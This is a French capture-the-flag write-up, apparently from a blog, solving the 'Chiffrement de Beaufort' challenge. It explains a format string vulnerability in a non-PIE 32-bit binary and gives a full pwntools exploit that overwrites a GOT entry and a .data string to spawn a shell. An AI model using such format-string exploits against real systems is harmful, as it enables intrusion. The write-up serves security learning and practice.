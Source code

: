 # Chiffrement de Beaufort -  HSR 2024

## Binary Analysis
Pour analyser le binaire, on va commencer par l&#39;ouvrir avec un décompilo, comme **Binja**. Le binaire n&#39;étant pas strippé, on peut s&#39;aider des symboles pour deviner ce que fait chaque fonction.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_symbols.png)

A part la fonction *backdoor()* qui aspire à servir de fonction *win()*, le nom des fonctions ne nous apporte rien d&#39;intéressant.
Regardons un peu plus en détail ce que fait le programme.

### Main()
Tout d&#39;abord, la fonction *main()* va lire l&#39;entrée standard à 2 reprises, attendant de l&#39;utilisateur qu&#39;il envoie une chaine de maximum 0x64 caractères. Ensuite elle va stocker ces entrées dans 2 buffers, puis appeler la fonction *beaufortCipher()* avec ces 2 buffers en paramètres.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_main1.png)

### beaufortCipher()
Quant à la fonction *cipherBeaufort()*, comme son nom l&#39;indique, elle applique un chiffrement de **Beaufort** sur notre première input. La clé utilisée pour chiffrer le buffer est enfait notre 2ème input.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_cipher.png)

### End of main()
Une fois que notre input a été chiffrée avec la clé qu&#39;on donne au programme, la fonction *main()* affiche le buffer chiffré, puis la clé qu&#39;on lui a donné.
Et c&#39;est ici que se trouve la vuln. 

En effet, le *printf()* que le programme appel pour afficher notre clé prend directement la clé comme premier argument. Ainsi notre input (la clé) est interpetée, par *printf()*, comme étant le formatteur.
Le programme est donc vulnérable à une format string.

![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_main2.png)

## Theorycraft
Maintenant réfléchissons à comment on va exploiter la vuln. Si on fait un **checksec**, on remarque que le binaire n&#39;a ni **PIE**, ni **RelRO**.
```sh title:checksec
Canary  :    ✘ 
NX      :    ✓ 
PIE     :    ✘ 
Fortify :    ✘ 
RelRO   :    Partial
```

Dans tous les cas on part du principe que **l&#39;ASLR** est actif. De plus, comme le chall est en remote, on a pas les détails de l&#39;environnement dans lequel run le binaire, donc c&#39;est trop foireux de se baser sur des adresses hardcodées de la stack.

Par contre, l&#39;abscence de **RelRO** et de **PIE** nous permet non seulement de localiser la **GOT** à coup sûr, mais aussi d&#39;y accéder en écriture. On peut donc envisager d&#39;overwrite certaines entrées de la GOT afin d&#39;obtenir notre shell.

Enfin on a une fonction *backdoor()* qui lance un *system(&#34;/bin/ls&#34;)*. La string *&#34;/bin/ls&#34;* étant dans la section *.data*, on peut la changer pour *&#34;/bin/sh&#34;* avant de rediriger le flow d&#39;execution vers *backdoor()*.
## Exploitation
Notre exploit va se faire en 3 étapes:
1) Trouver à quel offset notre input se trouve sur la stack, au moment du call à *printf()*
2) Overwrite *&#34;/bin/ls&#34;* avec *&#34;/bin/sh&#34;*
3) Overwrite l&#39;entrée de *exit()* dans la **GOT** avec l&#39;adresse de *backup()*

### Input offset
Pour trouver l&#39;offset, tout ce qu&#39;on a à faire est de lancer le programme, **break** au moment du *printf()* vulnérable et regarder à quelle distance de **$ESP** se trouve notre input. Pour repérer facilement notre input, on va envoyer *&#34;aaaaaaa...&#34;* comme clé.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_gdb.png)

On voit que notre input est à $0$x$78$ bytes de **$ESP**, soit en 32 bits, $30*4$ bytes. Notre offset est donc 30.

### The Exploit
Pour ce qui est de l&#39;exploit, on va utiliser le module *fmtstr* de *Pwntools* et plus particulièrement la fonction *fmtstr_payload()*. Il nous suffit simplement de lui passer comme argument l&#39;offset de notre input ainsi qu&#39;un dictionnaire des adresses et des valeurs qu&#39;on souhaite écrire.

```py
payload = fmtstr_payload(30, writes) 
print(payload)
```

L&#39;adresse de *&#34;/bin/ls&#34;* est *0x0804c024*. On va donc écrire *&#34;sh&#34;* à *0x0804c029*, ce qui nous donnera *&#34;/bin/sh&#34;*.
Enfin on va réécrire l&#39;entrée de *exit()* dans la **GOT** par l&#39;adresse de la fonction *backup()*.

```py
writes = { 0x0804c029: 0x00006873, 
		   elfexe.got[&#39;exit&#39;]: elfexe.sym[&#39;backdoor&#39;]}
```

Ce qui donne comme exploit final :
```py title:exploit.py
#!/usr/bin/python3.9 
from pwn import * 

context.binary = elfexe = ELF(&#39;./beaufort.bin&#39;)

def start(argv=[], *a, **kw): 
	&#39;&#39;&#39;Start the exploit against the target.&#39;&#39;&#39; 
	elf_path = elfexe.path 
	
	if args.REMOTE: 
		remote_server = &#39;10.22.148.11&#39;
		remote_port = 1341
		target = remote(remote_server, remote_port) 
	else:  
		target = process([elf_path] &#43; argv, *a, **kw) 
	
	return target 
		
#=========================================================== 
# EXPLOIT GOES HERE 
#=========================================================== 
def pad(payload): 
	return payload&#43;b&#39;_&#39;*(0x64-len(payload)) 
	
arguments = [] 
io = start(arguments) 

writes = {0x0804c029: 0x00006873, 
		  elfexe.got[&#39;exit&#39;]: elfexe.sym[&#39;backdoor&#39;]} 

payload = b&#34;A&#34;*0x60 
io.sendline(payload) 

payload = fmtstr_payload(30, writes) 
payload = pad(payload) 

print(payload) 
io.sendline(payload) 

io.interactive()
io.close()
```


---

> Author:   
> URL: http://my.littlepwney.fr/writeups/hacksecureims/chiffrement_de_beaufort/  

